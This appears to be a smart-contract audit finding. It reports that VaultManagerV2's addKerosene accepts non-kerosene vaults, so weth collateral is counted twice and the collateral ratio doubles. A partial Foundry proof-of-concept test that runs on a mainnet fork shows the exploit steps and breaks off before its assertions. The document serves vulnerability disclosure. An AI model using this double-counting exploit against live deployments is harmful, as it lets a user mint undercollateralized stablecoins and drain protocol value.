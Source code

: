 ## Impact
- Non-kerosene token vaults can be added to the `vaultsKerosene` mapping.
- As `weth` vaults and `wsteth` vaults are non-kerosene vaults and contribute to non-kerosene value which is the exogeneous collateral, but a user adding these vaults to their `vaultsKerosene` will make them also contribute to the kerosene value.
(Given a user added weth and wsteth to their vaults.)
Therefore, while calculating the `VaultManagerV2::collatRatio` of a user's DNFT, it will include their weth and wseth vaults in both non-kerosene value (intended) as well as in kerosene value (unintended).
Thus, having a collateral ratio pumped by 2x.

## Proof of Concept
Below is a Unit Test written to justify the finding.
Add the test in the file: `test/fork/v2.t.sol`

Run the test (Replace $ETH_MAINNET_RPC_URL with your eth mainnet rpc url):
```cpp
forge test --mt test_NonKeroseneVaultsContributeToKeroseneVaults --fork-url $ETH_MAINNET_RPC_URL -vv
```

Add the imports:
```cpp
import {DNft} from "../../src/core/DNft.sol";
import {ERC20} from "@solmate/src/tokens/ERC20.sol";
```

```cpp
function test_NonKeroseneVaultsContributeToKeroseneVaults() public {
  address user = makeAddr("user");
  vm.deal(user, 100 ether);

  Licenser licenser = Licenser(MAINNET_VAULT_MANAGER_LICENSER);
  vm.prank(MAINNET_OWNER);
  licenser.add(address(contracts.vaultManager));

  DNft dnft = DNft(MAINNET_DNFT);

  vm.startPrank(user);

  uint256 id = dnft.mintNft{value: 10 ether}(user);

  // user adds eth vault to their vaults
  contracts.vaultManager.add(id, address(contracts.ethVault));

  // now due to incorrect vault address check in addKerosene, user is able to add non-kerosene vault
  // to their vaultsKerosene
  contracts.vaultManager.addKerosene(id, address(contracts.ethVault));

  // user adds weth to the vault
  deal(MAINNET_WETH, user, 10 ether);       // get 10 weth to the user
  ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 10 ether);
  contracts.vaultManager.deposit(id, address(contracts.ethVault), 10 ether);

  // notice that the user has added only 10 eth as collateral
  uint256 userNonKeroseneValue = contracts.vaultManager.getNonKeroseneValue(id);

  // user mints `userNonKeroseneValue` amount of DYAD token
  contracts.vaultManager.mintDyad(id, userNonKeroseneValue, user);

  // it is intended that there mint should fail as they are only 100% collateralized
  // but the same amount of 10 weth value being considered in their kerosene value makes them 200% coll (i.e., 2e18)  which is more than 150% req overcollaterlization
```